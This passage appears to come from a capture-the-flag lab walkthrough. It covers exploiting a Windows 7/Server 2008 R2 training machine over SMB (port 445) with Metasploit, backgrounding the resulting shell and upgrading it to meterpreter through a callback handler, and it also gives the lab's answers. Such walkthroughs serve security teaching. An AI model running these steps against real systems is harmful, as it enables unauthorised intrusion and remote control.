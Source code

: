 ```

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.166.97     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

`RHOSTS`

4. Run the exploit!

`No answer needed`

5. Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

`No answer needed`

## [Task 3] Escalate

Escalate privileges, learn how to upgrade shells in metasploit.

1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

`post/multi/manage/shell_to_meterpreter`

2. Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)

```
msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.
```
